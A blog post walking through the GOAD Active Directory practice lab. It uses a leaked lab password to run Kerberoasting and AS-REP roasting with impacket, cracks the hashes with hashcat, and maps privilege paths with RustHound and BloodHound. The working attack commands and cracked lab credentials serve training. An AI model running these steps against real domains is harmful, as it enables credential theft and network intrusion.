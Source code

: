```yaml
---
title: GOAD - Digging Deeper 
date: 2022-11-16 12:00:00
categories: [AD,GOAD]
tags: [goad]
---
```


# Description

In this blog post we will use the infos which we discovered in [GOAD - Enumeration](https://blog.kindel.it/posts/GOAD-Enumeration/)  to dig deeper and gather more data about our target and if we are lucky we're gonna find something valuable 

# User Account

We discovered a user account on our basic enumeration that had it's password documented in the desciption. Let's see if it helps us to uncover new details.

## Check validity

Creds: `north.sevenkingdoms.local/samwell.tarly:Heartsbane`

```bash
cme smb 192.168.56.11 -u 'samwell.tarly' -p 'Heartsbane'
# Validity confirmed by our matching DC  
# ldapsearch should also work and leaves, as far as I'm aware, a smaller footprint
```

# More User Enum

## Kerberoasting

To get a list of kerberoastable accounts of the domain `north.sevenkingdoms.local` we will use the credentials of `samwell.tarly`

```bash
# Obtaining the hashes
impacket-GetUserSPNs 'north.sevenkingdoms.local/samwell.tarly:Heartsbane' -outputfile loot_2/kerberoastable.txt
# Cracking hashes using hashcat
hashcat -m 13100 -a 0 -o loot_2/kerb_cracked.txt loot_2/kerberoastable.txt /usr/share/wordlists/rockyou.txt
# Managed to crack a password jon.snow:iknownothing
```

## Asreproasting

Another option to get our hands on crackable hashes is to check for asrep roastable accounts.  
You could either:
- Check every known account
- Only check those indicated as vulnerable by [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
# Let's check every account that's currently known to us
impacket-GetNPUsers north.sevenkingdoms.local/ -usersfile loot/north.users.formatted.txt
# brandon.stark has set "DontReqPreAuth"
# Let's crack the hash
hashcat -m 18200 -a 0 -o loot_2/asrep_cracked.txt loot_2/asreproast.txt /usr/share/wordlists/rockyou.txt
# Successfull: brandon.stark:iseedeadpeople
```

# Bloodhound

Let's collect some infos about the domain `north.sevenkingdoms.local` and objects using [Rusthound](https://github.com/OPENCYBER-FR/RustHound). Feel free to use bloodhound-python or any other way you know :)

## Rusthound

Rusthound doesn't collect as much infos as sharphound but should be enough for this blog post

```bash
# Domain north.sevenkingdoms.local
rusthound -d north.sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: sevenkindgoms.local
rusthound -d sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: essos
FAILED
```

## Visualize

Start neo4j and [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
sudo neo4j start
# --disable-gpu-sandbox should fix a bug when Bloodhound isn't starting
./BloodHound --disable-gpu-sandbox
```

## Findings

Using [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and it's features we are able to identify a couple of things right away.  
This could help us reduce the noice within the domain as we don't have check every account that we know. We would be able to just retrieve the infos for those three and don't request infos for any other account.

### Kerberoastable Accounts
* sql_svc
* jon.snow

### ASREP Roastable Users
- brandon.stark

### Path to High Value Targets

We owned three users so far `samwell.tarly`, `brandon.stark`,  `jon.snow`. Let's look around in [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and enumerate groups and special permissions that are associated to those accounts.

**Permissions Matrix**

| User          | Groups                                                 | Special                      |
| ------------- | ------------------------------------------------------ | ---------------------------- |
| samwell.tarly | Domain Users, Night Watch                              |                              |
| brandon.stark | Domain Users, Stark, Remote Desktop Users              |                              |
| jon.snow      | Domain Users, Night Watch, Stark, Remote Desktop Users | Constrained Delegation -> DC |

According to our research which we conducted jon.snow is a high value user. We are able to use his credentials to open a remote desktop session and can probably abuse his constrained delegation privileges

![jonsnow-deleg](/assets/img/goad/jonsnow-deleg.png)

In our next blog post we will start pwning systems using our so far collected credentials and get more infos for [Bloodhound](https://github.com/BloodHoundAD/BloodHound).  
